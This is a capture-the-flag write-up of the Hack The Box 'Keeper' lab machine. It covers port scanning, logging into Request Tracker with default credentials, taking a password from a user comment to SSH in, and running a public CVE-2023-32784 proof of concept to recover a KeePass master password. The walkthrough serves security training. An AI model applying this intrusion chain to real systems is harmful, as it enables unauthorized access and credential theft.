






 Hack The Box — Keeper

**Platform:** Hack The Box    
**Tags:** `nmap` `request-tracker` `default-credentials` `ssh` `keepass` `CVE-2023-32784`

---

## Overview

Keeper is a target Linux machine on Hack The Box. The attack chain involves discovering an exposed web ticketing system running with default credentials, extracting plaintext credentials from a user comment, SSHing in to grab the user flag, and then exploiting a KeePass master password dump vulnerability to escalate to root.

---

## Enumeration

### Step 1 — Verify connectivity

Before scanning, confirm the target is reachable:

```bash
ping <TARGET_IP>
```


### Step 2 — Nmap port scan

Run a service version scan, skipping host discovery and DNS resolution for speed:

```bash
nmap -Pn -sV -n <TARGET_IP>
```


**Results:** Port **80 (HTTP)** is open.

### Step 3 — Add the target to `/etc/hosts`

To resolve the virtual hostnames used by the machine:

```bash
sudo nano /etc/hosts
```


Add the following two entries:

```
<TARGET_IP>    keeper.htb
<TARGET_IP>    tickets.keeper.htb
```

---

## Web Exploitation — Request Tracker

### Step 4 — Browse to the ticketing system

Navigate to `http://tickets.keeper.htb` in your browser. You are greeted with a **Request Tracker** login page.



### Step 5 — Default credentials

Request Tracker ships with well-known default credentials. After a couple of attempts:

| Field    | Value      |
|----------|------------|
| Username | `root`     |
| Password | `password` |

Access granted.



---

## Credential Discovery

### Step 6 — Enumerate users

Under the **Admin** tab, navigate to **Users**. Two user accounts are listed.


### Step 7 — Inspect user profiles

Reviewing both accounts, the user **`lnorgaard`** stands out:

- Role: Helpdesk agent
- Has privileged access



More importantly, the **comment section** on their profile contains an initial password that was never changed:

```
Welcome2023!
```

---

## Initial Access — SSH

### Step 8 — SSH as lnorgaard

```bash
ssh lnorgaard@<TARGET_IP>
```

Password: `Welcome2023!`

**We're in.**



### Step 9 — User flag

Check the current directory:

```bash
ls
```

A `user.txt` file is present. Read it for the first flag:

```bash
cat user.txt
```


---

## Privilege Escalation — KeePass Master Password Dump

### Step 10 — Investigate the directory

Unzip the archive found in the home directory:

```bash
unzip RT3000.zip
```

Review the extracted files. Among them is a **KeePass `.dmp` file** — a memory dump of a running KeePass process.

### Step 11 — CVE-2023-32784 (KeePass Master Password Leak)

A public exploit exists that recovers the KeePass master password from a process memory dump:

> **[CMEPW/keepass-dump-masterkey](https://github.com/CMEPW/keepass-dump-masterkey)**

This exploit takes advantage of CVE-2023-32784, where KeePass 2.x leaves recoverable plaintext remnants of the master password in memory.

Clone and run the tool against the dump file:

```bash
git clone https://github.com/CMEPW/keepass-dump-masterkey
cd keepass-dump-masterkey
python3 poc.py -d /path/to/dump.dmp
```

Use the recovered master password to open the `.kdbx` KeePass database and retrieve the root credentials.

---

## Flags

| Flag | Location |
|------|----------|
| User | `~/user.txt` (as `lnorgaard`) |
| Root | KeePass database → root credentials → `~/root.txt` |

---

## References

- [CVE-2023-32784 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-32784)
- [keepass-dump-masterkey — GitHub](https://github.com/CMEPW/keepass-dump-masterkey)
- [Request Tracker — Default Credentials](https://docs.bestpractical.com/rt/5.0.3/RT_Config.html)
- [Hack The Box — Keeper](https://app.hackthebox.com/machines/Keeper)


